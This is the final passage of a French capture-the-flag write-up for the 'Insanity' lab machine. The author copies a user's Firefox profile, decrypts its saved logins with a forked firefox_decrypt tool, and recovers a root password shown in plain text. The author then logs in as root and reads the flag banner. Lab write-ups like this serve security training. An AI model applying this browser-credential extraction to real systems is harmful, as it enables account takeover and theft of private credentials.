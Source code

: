 Finalement j'ai utilisé mon fork de [firefox_decrypt](https://github.com/devl00p/firefox_decrypt) pour extraire les identifiants du vault Firefox :

```console
$ scp -r elliot@192.168.56.136:.mozilla/firefox .
$ git clone git@github.com:devl00p/firefox_decrypt.git
$ cd firefox_decrypt/
$ python3 firefox_decrypt.py ../firefox
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
```

Le mot de passe permet de passer `root` :

```console
[root@insanityhosting ~]# id
uid=0(root) gid=0(root) groupes=0(root)
[root@insanityhosting ~]# ls
anaconda-ks.cfg  flag.txt
[root@insanityhosting ~]# cat flag.txt 
    ____                       _ __       
   /  _/___  _________ _____  (_) /___  __
   / // __ \/ ___/ __ `/ __ \/ / __/ / / /
 _/ // / / (__  ) /_/ / / / / / /_/ /_/ / 
/___/_/ /_/____/\__,_/_/ /_/_/\__/\__, /  
                                 /____/   

Well done for completing Insanity. I want to know how difficult you found this - let me know on my blog here: https://security.caerdydd.wales/insanity-ctf/

Follow me on twitter @bootlesshacker

https://security.caerdydd.wales

Please let me know if you have any feedback about my CTF - getting feedback for my CTF keeps me interested in making them.

Thanks!
Bootlesshacker
```
